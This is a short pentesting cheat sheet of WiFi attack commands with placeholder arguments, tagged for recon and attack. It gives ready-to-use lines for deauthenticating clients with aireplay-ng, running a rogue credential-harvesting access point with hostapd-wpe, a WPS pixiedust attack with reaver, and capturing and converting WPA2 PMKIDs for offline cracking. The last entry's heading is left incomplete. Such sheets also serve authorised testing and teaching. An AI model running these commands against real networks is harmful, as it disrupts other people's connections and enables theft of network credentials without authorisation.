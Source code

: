 # wifi

#plateform/linux #target/remote #cat/RECON #cat/ATTACK



## NetworkManager - Restart NetworkManager
```
systemctl restart NetworkManager
```


## aireplay - deauth client
```
aireplay-ng --deauth <deauth_count> -c <client_mac_address> -a <mac_address> <wlanmon_interface>
```

## hostapd-wpe - launch fake AP
```
hostapd-wpe <hostapd_conf>
```

## kismet - monitor WiFi
```
kismet -c <wlan_interface>
```

## nmcli - set back WiFi interface to managed mode
```
nmcli device set <wlan_interface> managed true
```

## reaver - launch WPS pixiedust attack
```
reaver -i <wlanmon_interface> -b <mac_address> -c <channel> -Z
```

## hcxdumptool - WPA2-PSK PMKID Capture
```
hcxdumptool -i <wlanmon_interface> -o capture.pcapng --enable_status=1 -c <channel>
```

## hcxdumptool - 
```
hcxpcaptool -z test.16800 test.pcapng
```

= wlan_interface: wlan0
= wlanmon_interface: wlan0mon
= deauth_count: 5
= hostapd_conf: /etc/hostapd-wpe/hostapd-wpe.conf

